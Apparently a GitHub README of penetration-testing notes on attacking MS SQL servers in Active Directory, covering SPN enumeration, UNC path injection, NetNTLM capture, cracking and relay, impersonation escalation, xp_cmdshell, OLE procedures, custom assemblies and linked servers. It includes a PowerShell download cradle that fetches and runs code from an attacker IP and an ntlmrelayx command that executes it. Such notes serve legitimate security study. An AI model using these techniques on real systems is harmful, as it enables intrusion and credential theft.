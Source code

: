 #### MS SQL Enumeration

When a MS SQL server is running in the context of an Active Directory service account, it is
normally associated with a Service Principal Name (SPN). Threrefore a discreet way of locating instances of MS SQL in an Active Directory
environment is to query the domain controller for all registered SPNs related to MS SQL.

If we own a domain user, we can query the domain controller with the native **setspn** tool

-T is the domain flag 
```
C:\Tools> setspn -T corp1 -Q MSSQLSvc/*
Checking domain DC=corp1,DC=com
CN=SQLSvc,OU=Corp1ServiceAccounts,OU=Corp1Users,DC=corp1,DC=com
MSSQLSvc/appsrv01.corp1.com:1433
MSSQLSvc/appsrv01.corp1.com:SQLEXPRESS
MSSQLSvc/DC01.corp1.com:1433
```

#### MS SQL Authentication

Authentication in MS SQL is implemented in two stages. First, a traditional login is required. This
can be either an SQL server login or we can use Windows account-based authentication. SQL
server login is performed with local accounts on each individual SQL server. Windows
authentication on the other hand, works through Kerberos and allows any domain user to
authenticate with a Ticket Granting Service (TGS) ticket.

we may perform a login with the built-in SQL server sa account, which will map to
the datavase owner(dbo) account. If we perform a login with an account that has no associated SQL user
account, it will automatically be mapped to the built-in guest user account.

We can use SqlConnection class, [sqlconnect.cs](/13MSSQL/slqconnect.cs) to connect to the server. And run sql query.

#### UNC Path injection

We can force an SQL server with [forcesmb.cs](/13MSSQL/forcesmb.cs ) to connect to an SMB
share we control, the connection will include authentication data. If the hostname is given as an IP address, Windows will automatically revert to NTLM
authentication instead of Kerberos authentication.

on the attack machine, we need to set up the responder to catch the relay.

```
kali@kali:~$ sudo responder -I tap0

SQLSvc::corp1:00031db3ed40602b:A05501E7450025CF27120CE89BAF1C6E:0101000000000000C06531
50DE09D201F361A5C346497213000000000200080053004D004200330001001E00570049004E002D005000
.....
```
We can crack the NetNTLM hash with hashcat
```
kali@kali:~$ hashcat -m 5600 hash.txt dict.txt --force
```
#### relay the NetNTLM hash
First, we need to install impacket, and kali powershell
```
kali@kali:~$ sudo apt install python3-impacket
kali@kali:~$ sudo apt -y install powershell
```

invoke kali powershell to create base64encoded payload command 

```
kali@kali:~$ pwsh
PowerShell 7.0.

PS /home/kali> $text = "(New-Object System.Net.WebClient).DownloadString('http://192.168.119.120/run.txt') | IEX"
PS /home/kali> $bytes = [System.Text.Encoding]::Unicode.GetBytes($text)
PS /home/kali> $EncodedText = [Convert]::ToBase64String($bytes)
PS /home/kali> $EncodedText
KABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0AC
kALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQA5ADIALgAxADYAOAAu
```

kick off netlm relay, and run our listener to catch the call back
```
sudo impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.120.6 -c 'powershell -enc payload'
```
#### Privilege Escalation

EXECUTE AS statement provides a way to execute a SQL query in the context of a different login or user. We could use this to escalate our ptivilege.

We can enumerate which logins allow impersonation, which get the this information using the database query
```
SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals
b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE'
```
Putting in it a c# script, we have [enumimpernoate.cs](/13MSSQL/enumImpernoate.cs)

after running the code, i identify that the sa login allow impersonation, we will try to impersonate the sa login with EXECUTE AS LOGIN = sa. so we have [ImpersonateSA.cs](/13MSSQL/ImpernoateSA.cs)

However, a database user can only perform actions on a given database. This means that
impersonation of a user with sysadmin role membership in a database does not necessarily lead
to server-wide sysadmin role membership. To fully compromise the database server, the database user we impersonate must be in a
database that has the **TRUSTWORTHY** property set.

The only native database with the TRUSTWORTHY property enabled is **msdb**. As is the case with many databases, the database owner (dbo) user has the sysadmin role. we can update our ImpersonateSA c# script to [impersonateDBO.cs](/13MSSQL/ImpersonateDBO.cs )

#### Remote code execution with xp_cmdshell

The xp_cmdshell stored procedure spawns a Windows command shell and passes in a string that
is then executed. The output of the command is returned by the procedure. To do this, we’ll need to begin with the impersonation of the
sa login. After this, we’ll use the sp_configure stored procedure to activate the advanced options
and then enable xp_cmdshell. The full implementation is in [xpcmdshell.cs](/13MSSQL/xpcmdshell.cs)

#### Remote code execution with sp_OACreate and sp_OAMethod

We can also use the sp_OACreate and sp_OAMethod stored procedures to create and execute a new stored procedure based on [Object Linking and
Embedding](https://en.wikipedia.org/wiki/Object_Linking_and_Embedding)

SQL statement to create local variable and instantiate the OLE object.
```
DECLARE @myshell INT; EXEC sp_oacreate 'wscript.shell', @myshell OUTPUT;
```


sp_OAMethod prototype, take the name of the procedure(objecttoken), method of the OLE(methodname)->run, optional output variable,and parameters for the invoked method
```
sp_OAMethod objecttoken , methodname
[ , returnvalue OUTPUT ]
[ , [ @parametername = ] parameter [ OUTPUT ] [ ...n ] ]
```
The example source code, [soOAMethod.cs](/13MSSQL/spOAMethod.cs) which create a file in remote host. 

#### Custom Assemblies
If a database has TRUSTWORTHY property set, it’s possible to use the CREATE ASSEMBLY924 statement to import a managed DLL as an object inside the SQL server and execute methods within it.

- 1.We will first create a Class Library, [cmdExec](/13MSSQL/cmdExec.cs) in .NET for cmd execution
- 2.We can compiled the cs into dll and convert it to a hex string [toHex.ps1](/13MSSQL/toHex.ps1). The hex string can be embbeded inside the  create assembly statement for later use.
- 3.Create the c# code that query the sql remotely. [AssemblyLoad.cs](/13MSSQL/AssemblyLoad.cs), complied and run
- 4.Lastly, you can't call create assembly multipule times, you must remove it with [cleanup.cs](/13MSSQL/cleanup.cs)

#### SQL Link

When a link from one SQL server to another is created, the administrator must specify the
execution context that will be used during the connection. If the administrator chooses a specific SQL login and that login has sysadmin role membership,
we would obtain sysadmin privileges on the linked SQL server. This will be the case even if we
only have low privileged access on the original SQL server.

- 1.We need to enumerate servers linked to the current SQL server with [linkenum.cs](/13MSSQL/linkenum.cs). We can use sp_linkedservesr stored procedure returns a list of linked servers for us.
- 2.Check if possible to run command across the link using OPENQUERY, and check the security context. [checklink.cs](/13MSSQL/linkcheck.cs)
- 3.If you have sa permission over the link database, you could  execute PowerShell shellcode runner through a download cradle with the xp_cmdshell stored
procedure. [linkshellcode.cs](/13MSSQL/linkshellcode.cs)

#### why there are so many links??
The SQL server on A has a link to the SQL server on B. This means that we could
follow the link from A to B to obtain the SA login security context, and then return back over the link from B to A.

- 1.enumenate the link on the remote host with 
```
EXEC ('sp_linkedservers') AT remotehostname(ex DC01)
```
- 2.query the permission from local host to remote host and return link using [linktolinkandbackquery.cs](/13MSSQL/linktolinkandbackquery.cs) to verify permission.
